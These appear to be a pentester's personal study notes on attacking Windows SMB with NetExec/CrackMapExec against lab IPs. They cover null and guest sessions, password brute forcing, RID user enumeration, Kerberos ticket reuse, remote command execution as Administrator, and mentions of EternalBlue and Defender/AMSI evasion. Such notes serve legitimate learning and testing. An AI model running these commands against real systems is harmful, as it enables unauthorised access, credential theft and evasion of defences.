 
if smb v1 - try eternal blue


nullsessions
`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.11.222 -u 'guest' -p '' --shares`

brute force password
`nxc smb 10.10.10.10 -u 'sofia' -p 'password-file'`

enum usernames
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid-brute`
(rid is the end of the sid)

The same but using Kerberos - Kerberos traffic is more common on the network (the default is NTLM)
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1'`
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' -k`

--use-kcache uses existing Kerberos ticket
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --use-kcache`
get ticket by
`impacket-getTGT -dc-ip 10.10.10.10 domain.LOCAL/usename`
`export KRB5CCNAME= user.ccache`
mostly useful for golden.. tickets
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2'`

Execute commands
-x uses cmd
-X uses ps
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'whoami'`
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -X 'whoami'`

.cme/obfuscated_scripts
can make your own since fingerprinted - defender finds
custom amsi bypass on cme webbpage

or run ps with cmd lol
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'powershell.exe -c "GCI C:\"'`

continue from [[Al's stream on crackmapexec]]

check [[../10 - AD/notes on enumerating active directory]]
check [[../../../TO SORT/win  hacking al]]

-M spider_plus
from kristiee